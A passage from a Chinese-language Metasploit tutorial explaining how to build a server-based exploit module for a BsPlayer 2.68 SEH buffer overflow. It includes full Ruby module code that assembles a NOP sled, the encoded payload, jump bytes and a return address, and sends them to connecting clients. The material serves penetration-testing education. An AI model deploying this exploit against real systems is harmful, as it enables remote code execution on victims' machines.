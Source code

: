 在这种情况下需要注意的一个重要点是，我们需要目标机器连接到我们的利用服务器，而不是我们试图连接到目标机器。因此，我们的利用服务器应该始终监听传入的连接，并根据请求传递恶意内容。

# 生成 Metasploit 模块

让我们开始在 Metasploit 中编写我们的漏洞的编码部分：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::TcpServer 

  def initialize(info={}) 
    super(update_info(info, 
      'Name'           => "BsPlayer 2.68 SEH Overflow Exploit", 
      'Description'    => %q{ 
        Here's an example of Server Based Exploit 
      }, 
      'Author'         => [ 'Nipun Jaswal' ], 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Generic', {'Ret' => 0x0000583b, 'Offset' => 2048} ], 
        ], 
      'Payload'  =>  
       { 
       'BadChars' => "\x00\x0a\x20\x0d" 
       }, 
      'DisclosureDate' => "May 19 2016", 
      'DefaultTarget'  => 0)) 
  end 
```

通过与许多漏洞一起工作，我们可以看到前面的代码部分并无不同，除了来自`/lib/msf/core/exploit/tcp_server.rb`的 TCP 服务器库文件。TCP 服务器库提供了处理传入请求并以各种方式处理它们所需的所有必要方法。包含此库使得额外选项如`SRVHOST`、`SRVPORT`和`SSL`成为可能。让我们看看代码的剩余部分：

```
def on_client_connect(client) 
return if ((p = regenerate_payload(client)) == nil) 
    print_status("Client Connected") 
    sploit = make_nops(target['Offset']) 
    sploit << payload.encoded 
    sploit << "\xcc" * (6787-2048 - payload.encoded.length)  
    sploit << "\xe9\x85\xe9\xff\xff"  
    sploit << "\xeb\xf9\x90\x90" 
    sploit << [target.ret].pack('V') 
    client.put(sploit) 
    client.get_once 
    client.put(sploit) 
    handler(client) 
    service.close_client(client) 
  end 
end 
```

